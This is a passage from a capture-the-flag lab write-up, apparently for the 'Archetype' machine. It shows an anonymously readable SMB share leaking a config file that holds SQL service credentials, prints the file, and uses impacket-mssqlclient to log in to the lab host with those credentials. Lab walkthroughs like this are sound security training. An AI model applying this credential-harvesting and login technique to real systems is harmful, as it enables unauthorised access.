 
There was only single share 'backups' accessible with no passwords. Logged with backups share and got a  
'prod.dtsConfig' file.

<p align="center"><img src="./Screenshots/4.png" width="550"></p> 

The 'prod.dtsConfig' file leaked the username and password for a user ARCHETYPE\sql_svc. 

```config
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>  
```

## Lets get Foothold !!

Now lets try to get in with obtained credentials. After some research I found out it could be done using impacket-mssqlclient. Now lets check whether we are working as a sysadmin (privileged user) or not.
```bash
$ /usr/bin/impacket-mssqlclient ARCHETYPE\sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth 
```